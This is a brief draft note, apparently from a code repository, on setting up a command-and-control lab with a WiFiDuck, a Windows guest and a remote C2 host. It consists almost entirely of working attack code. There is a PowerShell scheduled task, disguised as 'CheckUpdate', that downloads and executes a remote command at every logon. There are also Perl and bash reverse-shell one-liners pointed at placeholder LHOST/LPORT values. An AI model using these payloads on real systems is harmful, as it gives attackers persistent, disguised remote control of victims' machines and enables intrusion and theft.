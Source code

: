 # Command&Control [draft]

## Setup Lab
- WiFiDuck
- Windows guest
- Remote Host (C2)

Windows Task
$a = New-ScheduledTaskAction -Execute 'powershell' -Argument '$rawcmd = Invoke-webrequest -URI https://URL -UseBasicParsing; Invoke-Expression $rawcmd;';

$t = New-ScheduledTaskTrigger -AtLogon;

Register-ScheduledTask -Action $a -Trigger $t -TaskPath "CheckUpdate" -TaskName "CheckUpdate" -Description "Check update."

## Villain C2

``` perl
# simple perl payload
perl -MIO::Socket::INET -e '$s=IO::Socket::INET->new(PeerAddr=>"*LHOST*",PeerPort=>*LPORT*,Proto=>"tcp");open(STDIN, "<&", $s);open(STDOUT, ">&", $s);open(STDERR, ">&", $s);exec "/bin/bash"'
```

``` bash
# very simple bash payload
nohup /bin/bash -c 'bash -i >& /dev/tcp/*LHOST*/*LPORT* 0>&1 &'
```
